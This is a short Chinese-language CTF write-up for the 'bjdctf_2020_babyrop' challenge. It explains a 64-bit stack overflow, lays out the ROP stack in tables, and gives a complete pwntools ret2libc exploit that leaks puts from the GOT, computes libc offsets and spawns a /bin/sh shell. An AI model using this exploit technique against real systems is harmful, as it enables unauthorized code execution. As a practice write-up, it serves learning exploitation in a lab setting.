

- `64`位泄露`libc`

- `vuln`的`buf`变量存在溢出

- `64`位函数传入的参数依次存在寄存器`rdi,rsi,rdx (顺序从左到右)`,返回值存在`rax`中

  ```shell
  bamuwe@qianenzhao:~/done/bjdctf_2020_babyrop$ ROPgadget --binary bjdctf_2020_babyrop --only 'pop|ret'|grep rdi
  0x0000000000400733 : pop rdi ; ret
  ```

  1. 溢出泄露`libc`
  2. 构造`payload`拿到`shell`

| rbp  |           |         |                    |      |
| ---- | --------- | ------- | ------------------ | ---- |
|      | padding   |         |                    | 0x20 |
|      |           | leave   |                    | 0x8  |
|      | pop_rdi   | ret     | 0x0000000000400733 |      |
|      | puts_got  | pop rdi |                    |      |
|      | puts_plt  | ret     |                    |      |
|      | main_addr | ret     |                    |      |

> payload1

| rbp  |          |         |                    |      |
| ---- | -------- | ------- | ------------------ | ---- |
|      | padding  |         |                    | 0x20 |
|      |          | leave   |                    | 0x8  |
|      | pop_rdi  | ret     | 0x0000000000400733 |      |
|      | /bin/sh` | pop rdi |                    |      |
|      | system   | ret     |                    |      |

> payload2

```python
from pwn import *
from LibcSearcher import LibcSearcher
io = process('./bjdctf_2020_babyrop')
#io = remote('node4.buuoj.cn',29488)
elf = ELF('./bjdctf_2020_babyrop')
payload1 = b'A'*0x28+p64(0x0000000000400733)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
baseoffset = puts_addr - Lib.dump('puts')
sys_addr = baseoffset + Lib.dump('system')
bin_sh_addr = baseoffset + Lib.dump('str_bin_sh')

payload2 = b'A'*0x28+p64(0x0000000000400733)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload2)
io.interactive()
```
